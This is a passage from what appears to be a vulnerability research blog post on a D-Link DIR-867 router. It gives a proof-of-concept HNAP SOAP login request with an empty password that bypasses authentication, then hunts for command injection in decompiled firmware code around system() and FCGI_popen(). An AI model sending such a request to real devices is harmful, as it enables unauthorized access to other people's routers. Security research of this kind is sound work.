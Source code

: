 The following request body is a PoC.
```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://purenetworks.com/HNAP1/">
      <Action>login</Action>
      <Username>Admin</Username>
      <LoginPassword></LoginPassword><!-- Keep This Empty -->
      <Captcha></Captcha>
    </Login>
  </soap:Body>
</soap:Envelope>
```
Now we are authenticated and good to go. Let’s find some place to do something bad.

## Command injection
### `system()`
Let’s take a look at the most common one.

{% include aligner.html images="posts/2020-11-29-playing-with-dir867/system.png" column=1 %}

Well… Bad luck on this one. I found one spot that seemed exploitable, which in fact input were sanitized.
```c
...
iVar2 = tbsCheckHostIpEx(IPAddress); // sanitize
if ((iVar2 == 0) || (iVar2 = tbsCheckMaskEx(SubnetMask), iVar2 == 0)) {
  local_130 = 0x18; // ERROR
}
...
if (6 < sVar8) {
  sprintf(acStack140,"echo %s >/proc/ipinfo/ip_addr",__s);
  system(acStack140);
}
...
```

### `FCGI_popen()`
It’s a `popen()` wrapper from FastCGI, implemented as following
```c
FCGI_FILE *FCGI_popen(const char *cmd, const char *type)
{
    FILE * file = popen(cmd, type);
    FCGI_FILE * fcgi_file = FCGI_OpenFromFILE(file);

    if (file && !fcgi_file)
        pclose(file);

    return fcgi_file;
}
```
